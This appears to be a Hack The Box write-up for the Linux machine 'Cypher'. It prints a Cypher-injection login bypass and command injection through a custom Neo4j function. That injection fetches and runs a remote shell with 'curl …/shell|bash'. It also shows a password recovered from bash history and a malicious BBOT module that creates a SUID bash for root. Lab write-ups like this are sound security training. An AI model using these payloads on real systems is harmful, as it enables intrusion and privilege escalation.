




# Cypher



Cypher is a medium Linux Hack The Box machine built around a Neo4j injection in a login flow, command execution through a custom extension, and root through a writable BBOT module path.

## Reconnaissance

I started with an Nmap scan of the target.

```bash
nmap -sC -sV -oA nmap/output 10.129.220.87
```

The scan showed SSH and HTTP:

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cypher.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
```

I added `cypher.htb` to my hosts file and started browsing.



## Login Injection

The site advertised an Attack Surface Management product with a free demo behind a login prompt. A single apostrophe in the username caused a traceback that leaked application details.


The error showed a Neo4j query like this:

```text
MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = '<USERINPUT>' return h.value as hash
```

That meant the username was being inserted directly into a Cypher query, so I tried a login bypass payload.

```json
{
  "username": "admin' OR 1=1 RETURN '5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8' as hash //",
  "password": "password"
}
```

That worked and let me in.

## Neo4j Access

Once authenticated, I explored the dashboard and confirmed that queries were being sent to Neo4j. I used `SHOW PROCEDURES` and found custom functions.



One of them was `custom.getUrlStatusCode()`. When I called it with a URL under my control, I got a request on my listener, which suggested the function executed a shell command internally.

```bash
nc -lnvp 80
```

The request came in with `curl` as the user agent, which confirmed command execution via a system call.

I tested command injection using shell substitution.

```text
CALL custom.getUrlStatusCode('http://10.10.10.10/$(whoami)')
```

That produced a request containing `neo4j`, so the function was definitely vulnerable.

To get a shell, I hosted a payload and used the function to fetch and execute it.

```text
CALL custom.getUrlStatusCode('http://10.10.10.10/$(curl 10.10.10.10/shell|bash)')
```

That gave me a shell as `neo4j` in `/var/lib/neo4j`.

## JAR Review

Instead of relying only on the login bypass, I also found an easier route by brute forcing directories. `ffuf` found a `/testing` directory with directory listing enabled and a JAR file named `custom-apoc-extension-1.0-SNAPSHOT.jar`.



The JAR contained two custom functions, and the code showed that `custom.getUrlStatusCode()` passed user input into a bash command. That explained the command execution path.

I used the login injection again, this time with a payload that directly called the custom function and chained a shell command.

```json
{
  "username": "admin' RETURN 0 UNION CALL custom.getUrlStatusCode('http://10.10.10.10; curl http:/10.10.10.10/shell|bash') YIELD statusCode RETURN 0 //",
  "password": "password"
}
```

That also resulted in a shell as `neo4j`.

## User Pivot

In `neo4j`'s home directory, I found a `.bash_history` file containing a password:

```text
neo4j-admin dbms set-initial-password cU4btyib.20xtCMCXkBmerhK
```

I tried that password on the `graphasm` account and it worked.

```bash
su graphasm
```

That gave me the first user flag.

## Root via BBOT

Checking sudo permissions showed that `graphasm` could run BBOT as any user without a password.

```text
User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```

BBOT supports custom modules, so I created my own module in a writable directory and pointed BBOT at it through the preset file.

The module copied `/bin/bash` to `/tmp/bash` and set the SUID bit.

```python
import os
from bbot.modules.base import BaseModule

class escalate(BaseModule):
    watched_events = ["DNS_NAME"]
    produced_events = ["WHOIS"]
    flags = ["passive", "safe"]
    meta = {"description": "Escalate to root"}
    per_domain_only = True

    async def setup(self):
        os.system('cp /bin/bash /tmp/bash; chmod u+s /tmp/bash')
        return False, 'Check /tmp/bash!'

    async def handle_event(self, event):
        pass
```

I ran BBOT with the malicious module:

```bash
sudo /usr/local/bin/bbot -p ./bbot_preset.yml -m escalate
```

The scan failed intentionally during setup, but the SUID bash binary was created successfully. I then used it to become root.

```bash
/tmp/bash -p
```

## Attack Path

- Enumerate the target and discover a Neo4j-backed web app.
- Leak the Cypher query structure through a traceback.
- Bypass login with Cypher injection.
- Abuse a custom Neo4j extension for command execution.
- Get a shell as `neo4j`.
- Recover a password from `.bash_history`.
- Switch to `graphasm`.
- Abuse BBOT’s custom module loading to write a SUID bash binary.
- Launch `/tmp/bash -p` and obtain root.
